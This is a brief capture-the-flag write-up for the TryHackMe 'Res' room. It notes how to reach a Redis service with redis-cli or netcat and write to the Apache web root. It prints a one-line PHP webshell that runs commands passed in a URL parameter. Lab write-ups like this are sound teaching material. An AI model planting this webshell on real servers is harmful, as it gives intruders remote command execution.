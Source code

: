 # [Res](https://tryhackme.com/room/res)


### Task 5 Compromise the machine and locate user.txt
0. [HackTricks Webshell](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis#webshell)
1. Apache writeable path `/var/www/html`
2. Connecting via `redis-cli` or `netcat`
```
redis-cli -h $ip
nc -vn $ip $port
```
3. Then one line php webshell `"<?php system($_GET['cmd']); ?>"`

### Task 6
